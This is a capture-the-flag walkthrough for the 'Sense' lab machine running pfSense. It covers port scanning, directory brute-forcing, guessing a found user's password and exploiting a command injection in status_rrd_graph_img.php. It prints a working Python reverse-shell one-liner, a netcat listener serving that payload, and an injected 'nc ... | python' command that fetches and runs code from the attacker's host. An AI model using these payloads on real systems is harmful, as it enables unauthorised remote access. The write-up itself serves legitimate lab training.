 ## Sense

Difficulty: Easy

### User and Root Flag

```
rustscan -a 10.10.10.60 --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/224077894-c0458f7d-d098-49ed-8104-eb5fa103a48f.png)

<br>

The website is a pfsense portal. Default credentials doesn't work here.

![portal](https://user-images.githubusercontent.com/58514930/224079736-ed0e4be3-91e8-4756-8337-26d68b49c75b.png)

<br>

Running gobuster we find 2 txt.

```
gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt -k
```

![gobuster](https://user-images.githubusercontent.com/58514930/224079046-bc633672-908e-4bae-8d43-4c5a46bd0d78.png)

<br>

In system-users.txt we enumerate a user called rohit.

![system-users](https://user-images.githubusercontent.com/58514930/224079999-c3c8d8f0-12ca-4b41-bd72-eeb0ff8f12fe.png)

<br>

Trying some common password, we discover that the credential is: rohit:pfsense.

![adminPanel](https://user-images.githubusercontent.com/58514930/224080598-34097323-4edc-4767-8487-96e1c1c521bb.png)

<br>

Searching for pfsense vulnerabilities, the "Command Injection in status_rrd_graph_img.php" described in [this link](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/) seems to work.

### Manual Exploit

First we open the graph image and intercept the request to get the URL.

![openingImage](https://user-images.githubusercontent.com/58514930/224081556-b51d8b22-6382-4edc-a5c1-de2a2b8df3a4.png)

<br>

We just echo "whoami" command to test the RCE.

![testingRequest](https://user-images.githubusercontent.com/58514930/224081854-66f56584-92c8-4a0d-866e-47fa1194743a.png)

![testingResponse](https://user-images.githubusercontent.com/58514930/224082206-94922f7b-4bef-4bc3-b7ea-7ec29a39f6a6.png)

<br>

To get a reverse shell, we create a file called "shell" with a python reverse.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Now we put a listener redirecting the file with:

```
nc -lvnp 9001 < shell
```

Sequentially, we get this file doing the nc connection and pipe it to python, so our RCE payload will be:

```
nc 10.10.14.8 9001 | python
nc+10.10.14.8+9001+|+python --> converted to URL
```

![requestReverseShell](https://user-images.githubusercontent.com/58514930/224082580-f08ac684-0a38-48a9-9f76-f292ffd30d72.png)

![getReverseShell](https://user-images.githubusercontent.com/58514930/224082607-e0c5f7b0-9a0c-4292-9c31-a9aed567fb78.png)

### Automatic Exploit

Use this exploit in metasploit: exploit/unix/http/pfsense_graph_injection_exec.

![metasploit](https://user-images.githubusercontent.com/58514930/224083502-b37004ca-55a0-4543-a03c-f71457835a1d.png)
